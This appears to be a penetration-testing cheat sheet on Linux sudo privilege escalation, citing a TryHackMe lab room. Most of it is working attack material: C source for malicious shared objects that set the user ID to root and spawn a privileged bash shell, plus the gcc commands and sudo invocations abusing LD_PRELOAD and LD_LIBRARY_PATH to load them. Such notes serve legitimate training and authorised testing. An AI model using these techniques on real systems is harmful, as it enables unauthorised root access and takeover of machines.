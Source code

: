# Sudo Abuse

```
$ sudo -l
[sudo] password for appadmin:
User appadmin may run the following commands on this host:
                (root) /opt/Support/start.sh
```

**Checklist**

* [ ] Write permission to `start.sh`
* [ ] write permission to the `/opt/support`
* [ ] Create `start.sh` if doesn't exist

## **Environment Variables (**[**https://tryhackme.com/room/linuxprivesc**](https://tryhackme.com/room/linuxprivesc)**)**

Check which environment variables are inherited (look for the env\_keep options):

`sudo -l`

**LD\_PRELOAD**

`LD_PRELOAD` is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library\*\*.\*\*

```
/* Preload.c */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the `LD_PRELOAD` environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

**LD\_LIBRARY\_PATH**

`LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

Run `ldd` against the any program that you can execute as sudo (sudo -l) to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```
/* Library_path.c */

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c`

Run program using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp program-name-here`
